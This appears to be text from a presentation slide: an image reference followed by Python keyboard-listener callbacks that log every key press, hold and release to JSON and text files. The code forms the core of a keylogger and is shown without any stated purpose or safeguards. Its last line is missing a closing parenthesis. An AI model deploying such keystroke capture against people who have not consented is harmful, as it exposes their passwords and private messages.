

def on_press(key):
    global x, key_list
    if x == False:
        key_list.append(
            {'pressed' : f'{key}'}
        )
        x = True
    if x == True:
        key_list.append(
            {'Held': f'{key}'}
        )
    update_json_file(key_list)
def on_release(key):
    global x, key_list,key_strokes
    key_list.append(
        {'Released': f'{key}'}
    )
    if x == True:
        x = False
    update_json_file(key_list)
    key_strokes=key_strokes+str(key)
    update_txt_file(str(key_strokes)